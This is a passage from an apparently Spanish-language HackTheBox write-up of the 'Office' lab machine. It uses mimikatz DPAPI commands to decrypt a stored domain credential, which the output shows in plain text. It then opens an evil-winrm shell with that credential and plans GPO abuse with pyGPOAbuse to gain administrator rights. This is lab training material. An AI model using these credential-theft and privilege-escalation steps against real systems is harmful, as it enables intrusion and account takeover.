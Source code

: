 ```bat
mimikatz # dpapi::masterkey /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Protect\S-1-5-21-1199398058-4196589450-691661856-1107\10811601-0fa9-43c2-977e5-9bef8471fc7d /rpc
... [snip]
Auto SID from path seems to be: S-1-5-21-1199398058-4196589450-691661856-1107

[domainkey] with RPC
[DC] 'office.htb' will be the domain
[DC] 'DC.office.htb' will be the DC server
  key : 3f891c81971ccacb02123a9dde170eaae918026ccc0a305b221d3582de4add84c900ae79f950132e4a70b0ef49dea6907b4f319c5dd10f60cc31cb1e3bc33024
  sha1: fbab11cacdd8407e8db9604f0f8c92178bee6fd3
mimikatz # dpapi::cred /in:C:\Users\PPotts\AppData\Roaming\Microsoft\Credentials\E76CCA3670CD9BB98DF79E0A8D176F1E /masterkey: ... [snip] ...
...
**CREDENTIAL**
  credFlags      : 00000030 - 48
  credSize       : 000000a6 - 166
  credUnk0       : 00002004 - 8196

  Type           : 00000002 - 2 - domain_password
  Flags          : 00000000 - 0
  LastWritten    : 1/18/2024 7:53:30 PM
  unkFlagsOrSize : 00000000 - 0
  Persist        : 00000003 - 3 - enterprise
  AttributeCount : 00000000 - 0
  unk0           : 00000000 - 0
  unk1           : 00000000 - 0
  TargetName     : Domain:interactive=office\hhogan
  UnkData        : (null)
  Comment        : (null)
  TargetAlias    : (null)
  UserName       : office\hhogan
  CredentialBlob : H4ppyFtW183#
  Attributes     : 0
```

### Administrador

Este usuario tiene acceso a WinRM como pudimos ver anteriormente

```bash
❯ evil-winrm -i 10.10.11.3 -u hhogan -p 'H4ppyFtW183#'
                                        
Evil-WinRM shell v3.5
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\HHogan\Documents>
```

También vimos que es parte del grupo de `GPO Managers`, por lo que podemos editar políticas de grupo para darnos permisos administrativos. Yo para hacer esto sencillo utilizaré [pyGPOAbuse](https://github.com/Hackndo/pyGPOAbuse)
